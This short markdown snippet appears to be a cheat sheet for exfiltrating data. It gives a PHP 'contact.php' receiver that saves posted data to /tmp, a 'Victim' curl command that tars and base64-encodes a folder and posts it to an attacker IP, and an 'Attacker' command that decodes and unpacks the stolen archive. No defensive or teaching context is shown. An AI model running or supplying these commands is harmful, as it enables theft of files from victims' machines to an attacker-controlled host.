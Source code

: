 ## Create website with the following php script
#### contact.php
	<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>

## Victim
	curl --data "$(tar zcf - /tmp/datafolder | base64)" http://[attacker ip]/contact.php

## Attacker
	cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar